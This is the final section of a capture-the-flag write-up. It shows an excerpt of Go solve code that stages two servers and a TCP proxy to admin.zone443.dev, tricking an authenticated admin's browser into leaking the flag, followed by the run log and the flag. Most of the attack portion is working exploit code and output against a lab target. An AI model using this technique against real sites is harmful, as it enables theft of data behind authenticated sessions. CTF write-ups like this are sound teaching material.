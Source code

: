 The full solve code is in [solve.go](solve.go), but here's an excerpt of the main logic:

```go
// listen for request channel to be filled
// stop first server upon first request
go func() {
    <-stop
    s.Shutdown(context.Background())
}()

// start serving on first port
serve(&s)

// proxy 443 traffic to admin (requested by admin because of iframe)
go func() {
    var p tcpproxy.Proxy
    addr := fmt.Sprintf(":%d", port)
    p.AddRoute(addr, tcpproxy.To("admin.zone443.dev:443"))
    log.Print("Starting proxy on " + addr)
    p.Run()
}()

// listen for request channel to be filled
// stop second server upon finding flag
go func() {
    <-stop
    s2.Shutdown(context.Background())
}()

// start serving on second port
// request will have invalid path that contains flag
serve(&s2)
```

Running this with `go run solve.go` and requesting that the admin visit https://lrindels2.zone443.dev prints the flag!

```
2021/07/18 21:51:43 About to listen on :443
2021/07/18 21:51:55 Got request from 34.77.5.6:41711
2021/07/18 21:51:55 Client authenticated as admin
2021/07/18 21:51:55 Done sending payload
2021/07/18 21:51:55 Sending stop signal to server
2021/07/18 21:51:55 Serving on :443 is over: http: Server closed
2021/07/18 21:51:55 About to listen on :80
2021/07/18 21:51:55 Starting proxy on :443
2021/07/18 21:51:56 Got request from 34.77.5.6:41713
2021/07/18 21:51:56 Bad path: /loaded-<pre style="word-wrap: break-word; white-space: pre-wrap;">Hello, admin. The flag is: CTF{m0_ambient_auth_m0_pr0blems} .\n</pre>
2021/07/18 21:51:56 Serving on :80 is over: http: Server closed

Flag: CTF{m0_ambient_auth_m0_pr0blems}
```
